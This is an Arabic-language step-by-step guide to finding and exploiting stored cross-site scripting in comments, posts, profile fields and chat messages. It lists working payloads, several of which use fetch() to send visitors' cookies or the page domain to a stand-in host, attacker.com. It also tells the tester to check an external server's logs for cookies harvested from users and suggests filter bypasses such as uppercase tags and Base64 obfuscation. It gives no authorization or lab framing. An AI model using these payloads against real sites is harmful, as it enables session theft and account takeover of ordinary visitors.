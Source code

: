 
## الخطوات العملية لاختبار ثغرة XSS المخزن
1. **إعداد البيئة**:
   - استخدم متصفحًا مع أداة وكيل (مثل **Burp Suite** أو **OWASP ZAP**) لمراقبة طلبات واستجابات HTTP.
   - أعد خادمًا خارجيًا (مثل خادم Python بسيط أو خدمة مثل `ngrok`) لتسجيل البيانات المرسلة من الحقن.
   - افتح أدوات المطورين في المتصفح (F12) لمراقبة وحدة التحكم (Console)، الشبكة (Network)، وتغييرات DOM.
   - تأكد من أن لديك حسابًا في التطبيق (إذا لزم الأمر) لإدخال البيانات في نقاط التخزين مثل التعليقات أو المنشورات.

2. **تحديد نقاط الإدخال العرضة**:
   - ابحث عن نقاط إدخال تُخزن البيانات وتُعرض لاحقًا، مثل:
     - حقول التعليقات في المنتديات، المدونات، أو صفحات المنتجات.
     - منشورات المستخدم في مواقع التواصل الاجتماعي أو المنتديات.
     - حقول وصف الملف الشخصي أو السيرة الذاتية.
     - حقول الرسائل أو الدردشة التي تُخزن وتُعرض.
   - افحص استجابات الموقع (عبر Burp Suite أو عرض المصدر) لتحديد أين تُعرض البيانات المخزنة (مثل داخل `<div>`، `<span>`، أو JavaScript).
   - تحقق من سياق العرض (مثل داخل HTML، سمة، أو JavaScript) لتصميم الحقنة المناسبة.

3. **إدخال الحقن**:
   - أدخل شيفرة JavaScript أو HTML ضارة في نقطة الإدخال التي تُخزن البيانات.
   - صمم الحقنة لتنفيذ شيفرة ضارة عند عرض البيانات المخزنة، مثل:
     - `<script>alert('XSS')</script>`
     - `<img src=x onload="fetch('http://attacker.com/log?c='+document.cookie)">`
     - `<a href="javascript:alert('XSS')">Click</a>`
   - جرب الحقن في سياقات مختلفة:
     - حقل تعليق: أدخل `<script>fetch('http://attacker.com/log?c='+document.cookie)</script>` في تعليق.
     - منشور: أدخل `<img src=x onload="alert('XSS')">` في منشور مستخدم.
     - وصف الملف الشخصي: أدخل `<a href="javascript:fetch('http://attacker.com/log?c='+document.cookie)">Click</a>` في حقل الوصف.
     - رسالة دردشة: أدخل `<img src=x onerror="fetch('http://attacker.com/log?d='+document.domain)">` في رسالة.

4. **مراقبة الاستجابات**:
   - تحقق من تنفيذ الحقنة عبر زيارة الصفحة التي تعرض البيانات المخزنة:
     - **أدوات المطورين**: راقب وحدة التحكم (Console) للأخطاء أو التنبيهات، والشبكة (Network) للطلبات الصادرة.
     - **خادم خارجي**: تحقق من سجلات الخادم لتأكيد استلام البيانات (مثل ملفات تعريف الارتباط) من المستخدمين الذين يشاهدون الصفحة.
     - **تغييرات DOM**: تحقق من تعديل الصفحة أو إعادة التوجيه.
   - **نجاح (True)**: الشيفرة تُنفذ (مثل ظهور تنبيه، إرسال بيانات إلى الخادم، أو إعادة توجيه).
   - **فشل (False)**: لا يتم التنفيذ بسبب فلاتر، CSP، أو تنظيف الإدخال.
   - سجل النتائج لتحديد الحقن الناجحة.

5. **تجربة أنواع حقن مختلفة**:
   - إذا فشلت الحقنة، جرب أنواعًا أخرى:
     - استخدام وسوم مختلفة: `<script>`، `<img>`، `<iframe>`، `<a>`، أو `<div>`.
     - استهداف أحداث مختلفة: `onload`، `onerror`، `onclick`، أو `onmouseover`.
     - تجاوز الفلاتر: جرب صيغ بديلة مثل `<SCRIPT>` (حروف كبيرة)، تعتيم الشيفرة بـ Base64، أو استخدام أحرف خاصة.
   - اختبر نقاط إدخال متعددة (مثل تعليقات أخرى، منشورات، أو حقول ملف شخصي مختلفة).
   - جرب حقنًا تستهدف سياقات مختلفة (مثل حقن داخل سمات، JavaScript، أو CSS).
